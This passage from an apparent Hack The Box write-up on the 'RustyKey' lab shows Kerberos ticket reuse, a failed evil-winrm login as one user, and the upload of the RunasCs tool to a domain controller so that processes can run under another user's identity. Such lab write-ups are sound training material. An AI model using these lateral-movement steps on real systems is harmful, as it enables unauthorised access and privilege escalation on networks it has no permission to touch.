 ```bash
└─$ export KRB5CCNAME=ee.reed.ccache
```

```powershell
└─$ evil-winrm -i dc.rustykey.htb -u ee.reed -r rustykey.htb  
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: User is not needed for Kerberos auth. Ticket will be used
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Invalid token was supplied
Success                                                                                                                                                                                                                                                                                                                     
                                                                                                                                                                                                                                                                                                                            
                                        
Error: Exiting with code 1
malloc(): unaligned fastbin chunk detected
zsh: IOT instruction  evil-winrm -i dc.rustykey.htb -u ee.reed -r rustykey.htb
```

We can not login to `ee.reed`. Let's back to `bb.morgan` user.

```bash
└─$ export KRB5CCNAME=bb.morgan.ccache
```

Big Shoot out to [2ubZ3r0](https://app.hackthebox.com/users/682632) for helping me with this tool [RunasCs](https://github.com/antonioCoco/RunasCs) which will only need username/password, it will stealh the `ee.reed` token and then run the internal process under `ee.reed` context. 

### RunasCs
We will download the zip file from [RunasCs releases](https://github.com/antonioCoco/RunasCs/releases/tag/v1.5) then extract out to grab the `RunasCs.exe` file. <br>
Gonna upload via `bb.morgan` through `evil-winrm`.

```powershell
*Evil-WinRM* PS C:\> mkdir Temp


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/30/2025   4:51 PM                Temp

*Evil-WinRM* PS C:\Temp> upload RunasCs.exe
                                        
Info: Uploading /home/kali/HTB_Labs/DEPTHS_Season8/RustyKey/RunasCs.exe to C:\Temp\RunasCs.exe
                                        
Data: 68948 bytes of 68948 bytes copied
                                        
Info: Upload successful!
```
